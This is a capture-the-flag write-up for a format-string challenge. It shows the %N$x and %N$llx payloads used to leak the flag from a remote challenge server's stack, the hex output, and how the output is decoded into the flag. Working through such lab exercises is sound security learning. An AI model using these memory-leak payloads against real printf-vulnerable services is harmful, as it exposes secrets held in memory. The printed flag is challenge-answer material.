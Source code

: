 # Archive

Having escaped the Xenithians, you now stand before a cryptic Xenithian archive. Retrieve the book of secrets from the archive!

`nc uithack.td.org.uit.no 9002`

[⬇️ archive.c](./archive.c) [⬇️ archive](./archive)

# Writeup

On this there seems to be a `printf` call without any validation of my input. The flag is stored in the memory right before it prints whatever I write. So I can use the `%x` to leak one byte of the memory. I started by locating where it is by running it locally on my pc. Filling `flag.txt` with `A`'s and then running the program with `./archive` with `%<num>$x` until I got it. I was planning to script it but only after 12 attempts I found it:

```bash
$ ./archive 
What book do you want to read?
%12$x
41414141
```

There are my `A`s. Happy with that I connected and fetched it from their sercer:

```bash
$ nc uithack.td.org.uit.no 9002
What book do you want to read?
%12$x %13$x %14$x %15$x %16$x
48546955 33687b34 31686372 0 0
```

Something was off. Using [CyberChef](https://gchq.github.io/CyberChef/#recipe=From_Hex('Auto')&input=NDg1NDY5NTUgMzM2ODdiMzQgMzE2ODYzNzI) I converted the hex to ascii and got `HTiU3h{41hcr`. Understandable these used little endianess so the first one is 4 characters `UiTH` but the second one makes no sense. I tried so many times and made a script to take the  first 100 places and convert them to ascii. I got nothing.

I then found a link to [CTF>101](https://ctf101.org/binary-exploitation/what-is-a-format-string-vulnerability/) which shows me the `llx` format. I tried that and got the flag:

```bash 
$ nc uithack.td.org.uit.no 9002
What book do you want to read?
%12$llx %13$llx %14$llx %15$llx %16$llx
326b636148546955 345f617833687b34 7d73657631686372 %
```

I now had a more believable number of characters `2kcaHTiU4_ax3h{4}sev1hcr` so with a reverse and a few manual changes I got the flag:

```javascript
"2kcaHTiU4_ax3h{4}sev1hcr" => reverse
"rch1ves}4{h3xa_4UiTHack2" => shuffle around
"UiTHack24{h3xa_4rch1ves}" == flag
```